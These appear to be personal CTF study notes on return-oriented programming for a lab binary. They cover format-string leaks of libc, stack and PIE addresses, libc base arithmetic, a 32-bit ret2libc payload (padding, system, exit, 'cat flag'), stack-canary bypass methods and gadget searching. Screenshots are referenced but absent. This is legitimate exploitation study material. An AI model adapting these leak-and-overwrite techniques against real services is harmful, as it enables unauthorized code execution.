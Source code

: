 
Return Oriented programming

32bits
## Test local

### Find leak of the libc

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

Find an addresse that correspond to the libc 

![[Pasted image 20231115212800.png]]

In gdb : ```info proc map```

![[Pasted image 20231115212903.png]]

=> offset 2 point to the libc 

Then we will search the correspond element of the offset 2
in gdb ```x/10i addr```

![[Pasted image 20231115213232.png]]

We now know that it correspond to the _IO_2_1_stdin

we will now look of the offset in IDA of the _IO_2_1_stdin, system and exit

locally in my libc : 
```python
off_system = 0x0047CB0  
off_exit = 0x00DCCB0  
addr_stdio = 0x00226620
```

To calculate the base addr of the libc and the function system and exit within : 
```python
libc_base_addr = leak_addr - addr_stdio
memory_system_addr = libc_base_addr + off_system  
memory_exit_addr = libc_base_addr + off_exit
```

leak addr => offset 2 
```python
payload = b'%2$p|'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
```

### Get an addr in the stack
=> get the offset between the addr we find and the start of the buffer

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

=> look of the addr and find one that correspond of the stack 
In gdb : ```info proc map```

![[Pasted image 20231115214902.png]]

we will launch the script remotely and locaaly to see thet diff in the offset - they have to be the same in the two
here at the offset 263 we found 0x80493a3 that corresponf to the return addr of handle, we see just above 0xffffd098 addr that point to the stack
addr leak => 0xffffd098

Then to get the offset we will search the addr of the start of the buffer in gdb 

breakpoint in fgets where the first arg is the buffer (fgets)
![[Pasted image 20231115214556.png]]



![[Pasted image 20231115214657.png]]

```python
buf_addr = (leak_stack - 0x448)
```

```python
payload = b'%2$p|%262$p'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
leak_stack = int(res[1],16)
```

### Calculate the lengh of the buffer

in ida count the push, ..
![[Pasted image 20231115220334.png]]

1028+4+4 = 1036 = 0x40C


we have now all the offset

```python
buf = b'n'  
buf += b'A' * (0x40C - len(buf))  
  
  
# get addr of buffer in gdb here 0xffffcc50 and addr leak in 262 0xffffd098  
buf_addr = (leak_stack - 0x448) # ebp - 0x408  
sys_argument_addr = buf_addr + 0x40C + 3 * 4    
  
buf += p32(memory_system_addr) # system  
buf += p32(memory_exit_addr) # exit  
buf += p32(sys_argument_addr) # system argument addr   
buf += b"          cat flag\0" # cat flag str
```


### We now have to change the offset in the libc of the remote server and we get the flag

![[Pasted image 20231115220601.png]]

# 64 bits

### Libc like 32


### Get the canary

to the return addr of handle in 

![[Pasted image 20231116201900.png]]

here 149 
usually the canary finish by \0 then it is at 147

#### Canary protection

At start of the program
Uniq value that not change

#### Bypass canary

- Read value of the canary (vulnerability that allows us to read it)
- Bad entropy
- Brute Force byte by byte : with fork by example if process crash then not good byte but if not good byte of the canary => can pass to the others byte 

## Get the gadget

rp-lin-gcc/rp-lin -f rop/rop200/exo -r3 --colors | grep pop
![[Pasted image 20231116202059.png]]

we will take 4c3
![[Pasted image 20231116213647.png]]


## Bypass PIE

=> get addr of pie 
```info proc map``` to know the exo addr load by the binary
![[Pasted image 20231116212822.png]]


looks with the format string an add in the stack 
![[Pasted image 20231116212716.png]]

verify with gdb the addr 
![[Pasted image 20231116212847.png]]

get the offset with ida of the addr in the exo
![[Pasted image 20231116212915.png]]

Finally make the calcul : 
```pie_base_addr = leak_pie - addr_start```
